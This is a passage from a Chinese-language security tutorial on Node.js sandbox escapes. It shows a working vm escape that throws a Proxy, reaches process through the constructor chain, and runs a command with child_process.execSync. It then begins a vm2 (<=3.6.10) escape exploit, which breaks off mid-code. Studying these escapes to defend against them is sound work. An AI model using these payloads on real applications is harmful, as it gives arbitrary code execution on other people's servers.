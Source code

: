 当我们在沙箱外访问proxy对象的任意属性，无论是否存在，就会触发`get`对应的钩子函数

### Problem 3

若沙箱没有返回值或返回的是我们无法利用的对象，该如何逃逸呢？

可以借助异常将沙箱内的对象抛出

```javascript
const vm = require('vm');
const script = `
(() => {
    throw new Proxy({},{
        get: function () {
            const c = arguments.callee.caller;
            const p = (c.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('calc');
        }
    })
})()`;
try {
    vm.runInContext(script, vm.createContext(Object.create(null)));
} catch (e) {
    console.log("error:" + e);
}
```

# 0x05 vm2沙箱逃逸

从上面可以看出vm沙箱的隔离功能太差劲了。

第三方包vm2在vm的基础上做了一些优化。



vm2相比vm做出很大的改进，其中之一就是利用了es6新增的proxy特性，从而使用钩子拦截对`constructor`和`__proto__`这些属性的访问。



vm2版本<=3.6.10

```javascript
const {VM} = require('vm2');
const untrusted = `
const f = Buffer.prototype.write;
const ft = {
        length: 10,
        utf8Write(){
        }
}
function r(i){
    var x = 0;
    try{
        x = r(i);
    }catch(e){}
    if(typeof(x)!=='number')
        return x;
    if(x!==i)
        return x+1;
    try{
        f.call(ft);
    }catch(e){
        return e;
    }
    return null;
}
var i=1;
while(1){
```